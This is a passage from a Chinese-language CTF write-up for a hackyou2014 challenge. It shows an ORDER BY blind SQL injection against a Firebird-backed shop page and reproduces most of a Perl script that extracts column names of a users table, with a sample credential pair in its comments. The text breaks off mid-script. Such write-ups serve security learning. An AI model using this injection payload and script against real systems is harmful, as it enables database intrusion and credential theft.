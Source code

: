 是个后台登陆口，没有账号，继续翻前台，发现

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost

```

有注入

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost ASC

```

其实看到order参数，就很容易猜测可能是order by语句后的注入 :)

针对这个场景，firebird数据库，可控语句在order by之后，只能采取盲注：

已有人写好跑数据的perl脚本：

```
use LWP::Simple;
#username:password
#admin:9shS3FAk

# extract columns from USERS

$url="http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=";

$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
$b=0;


# LOGIN column part
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print "j: ".$j." i:".$i."\n";
        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i);
                $fst.="ascii_char(".$i.")||";

                last;
        }else{
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

# PASSWD column part
$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$b=0;
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
```